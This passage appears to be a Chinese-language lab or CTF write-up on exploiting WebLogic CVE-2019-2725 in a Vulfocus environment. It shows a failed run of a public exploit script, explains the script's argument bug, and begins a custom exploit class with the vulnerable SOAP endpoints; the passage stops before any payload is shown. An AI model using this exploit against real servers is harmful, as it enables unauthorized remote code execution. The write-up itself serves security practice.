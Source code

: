 ```
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 CVE-2019-2725.py -t http://10.37.133.3:7001 -v

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/CVE-2019-2725.py", line 173, in <module>
    check_url(url)
  File "/home/kali/ctf-games/fofapro/vulfocus/CVE-2019-2725.py", line 135, in check_url
    rsp = requests.post(vul_url, data=echo_cmd_payload_10271, verify=False, headers=headers, proxies=proxies)
requests.exceptions.MissingSchema: Invalid URL '-t/wls-wsat/CoordinatorPortType11': No scheme supplied. Perhaps you meant https://-t/wls-wsat/CoordinatorPortType11?
```

**问题分析**:

- **脚本缺陷**: 下载的CVE-2019-2725.py脚本存在参数解析错误
- **URL构造问题**: 脚本错误地将命令行参数 `-t`包含在URL中，导致无效的URL格式
- **解决方案**: 需要使用手工构造的SOAP攻击或寻找其他可靠的利用工具

**替代方案 - 使用自定义利用脚本**:

由于公开脚本存在问题，我们创建专用的CVE-2019-2725利用脚本：

```bash
# 创建自定义利用脚本
cat > weblogic_cve_2019_2725_exploit.py << 'EOF'
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
WebLogic CVE-2019-2725 专用利用脚本
修复了公开脚本的参数解析问题
"""

import requests
import sys
import argparse
from urllib3.packages.urllib3.exceptions import InsecureRequestWarning

# 禁用SSL警告
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

class WebLogicCVE2019_2725Exploit:
    def __init__(self, target_url):
        self.target_url = target_url.rstrip('/')
        self.session = requests.Session()
        self.session.verify = False
  
        # 攻击路径
        self.wsat_path = "/wls-wsat/CoordinatorPortType"
        self.async_path = "/_async/AsyncResponseService"
  
        # HTTP头
        self.headers = {
            'Content-Type': 'text/xml; charset=UTF-8',
            'SOAPAction': '',
            'User-Agent': 'Mozilla/5.0 (compatible; CVE-2019-2725-PoC)'
        }
  
    def test_vulnerability(self):
        """测试漏洞是否存在"""
        print(f"[*] 测试目标: {self.target_url}")
  
        # 检测wls-wsat组件
        wsat_url = f"{self.target_url}{self.wsat_path}"
        try:
```